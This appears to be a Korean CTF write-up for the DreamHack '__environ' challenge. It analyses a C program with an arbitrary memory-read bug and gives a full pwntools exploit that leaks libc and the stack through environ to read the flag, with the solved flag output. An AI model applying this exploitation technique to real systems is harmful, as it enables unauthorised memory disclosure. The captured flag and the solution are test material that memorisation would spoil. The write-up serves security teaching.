 # [DreamHack] __environ

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: __environ에서 실습하는 문제입니다.
>
> Release: [__environ.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8540019/__environ.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/161372976-b816c88d-2b23-4b6a-b9c3-e87a32a3a701.png)

## Analysis

```c
void read_file() {
  char file_buf[4096];

  int fd = open("/home/environ_exercise/flag", O_RDONLY);
  read(fd, file_buf, sizeof(file_buf) - 1);
  close(fd);
}
```

`read_file()` 함수는 플래그 파일의 내용을 읽어와서 스택의 `file_buf`에 저장한다.

```c
int main() {
  char buf[1024];
  long addr;
  int idx;

  init();
  read_file();

  printf("stdout: %p\n", stdout);

  while (1) {
    printf("> ");
    scanf("%d", &idx);
    switch (idx) {
      case 1:
        printf("Addr: ");
        scanf("%ld", &addr);
        printf("%s", (char *)addr);
        break;
      default:
        break;
    }
  }
  return 0;
}
```

`stdout`의 값을 leak해준다. 이를 이용하여 libc 주소를 계산할 수 있다. AAR이 제한 없이 가능하므로, 먼저 `environ`을 leak해서 스택 주소를 알아낸 후, `file_buf`에 저장된 플래그를 읽어오면 된다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('/home/environ_exercise/environ_exercise')
    stdout_offset = 0x3ec760
    environ_offset = 0x61c118
else:
    r = remote('host1.dreamhack.games', 13219)
    stdout_offset = 0x3ec760
    environ_offset = 0x61c118

sla = r.sendlineafter


# leak libc

r.recvuntil('stdout: 0x')
stdout = int(r.recvline()[:-1], 16)  # _IO_2_1_stdout_
libc = stdout - stdout_offset  # libc base
environ = libc + environ_offset  # environ


# leak stack

sla('> ', '1')
sla('Addr: ', str(environ))

stack = u64(r.recvn(6).ljust(8, b'\x00'))
flag = stack - 0x1538


# read flag

sla('> ', '1')
sla('Addr: ', str(flag))


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 13219: Done
[*] Switching to interactive mode
DH{d27721f1c8dd19d57e67f64cda6c7bca}
```